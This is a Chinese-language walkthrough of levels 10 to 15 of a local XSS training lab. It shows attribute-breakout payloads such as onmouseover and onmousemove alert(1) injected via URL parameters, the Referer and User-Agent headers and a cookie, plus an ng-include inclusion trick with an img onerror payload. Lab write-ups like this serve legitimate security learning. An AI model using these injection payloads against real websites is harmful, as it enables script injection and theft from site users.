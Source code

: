 发现回显
`<input name="t_sort"  value="" onmouseover=javascript:alert(1) "" type="hidden">` ,被隐藏了xd，html里面加一个type去覆盖这个状态
`http://localhost:51142/level10.php?keyword=test&t_sort=" onmouseover=javascript:alert(1) type "`

**level11**  
看页面源码
```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ref"  value="http://localhost:51142/level10.php?keyword=test&t_sort=%22%20onmouseover=javascript:alert(1)%20type%20%22" type="hidden">
```

发现referer被传回来，是上一个靶场的链接，bp抓包给他改了传回去
`Referer: "type="text "onmousemove="alert(1)`


还有一种方法创建一个文件名为 `" onmouseover=javascript:alert(1) type ".html `的 HTML 文件，在其中重定向到 level 11 的页面。

**level12**  
看看页面源码

```
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ua"  value="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.4 Safari/605.1.15" type="hidden">
```

给了ua，很明显举要改ua，改成`"type="text "onmousemove="alert(1)`就行

**level13**  
修改cookie为`" onmouseover=javascript:alert(1) type "`

**level14**  
貌似这个关卡寄了，看别人的博客貌似是exif xss，就是图片上传，图片的属性改成xss的马

**level15**  
这一关考的是`ng-include:`这个东西，文件包含

+ ng-include 指令用于包含外部的 HTML 文件。
+ 包含的内容将作为指定元素的子节点。
+ ng-include 属性的值可以是一个表达式，返回一个文件名。
+ 默认情况下，包含的文件需要包含在同一个域名下。

语法
`<element ng-include="filename" onload="expression" autoscroll="expression" ></element>`

第一种做法，把以前关卡的漏洞包含进去，我们就可以打了

第二种方法，写一个能够弹窗的简单 HTML，然后 include 进来
```
<html>
<h1>hacker</h1>
<img src=1 onerror="alert(1)"></img>
</html>
```
如果放在网站根目录，就是`?src="/alert.html"`
感觉这种遇到的可能性很小
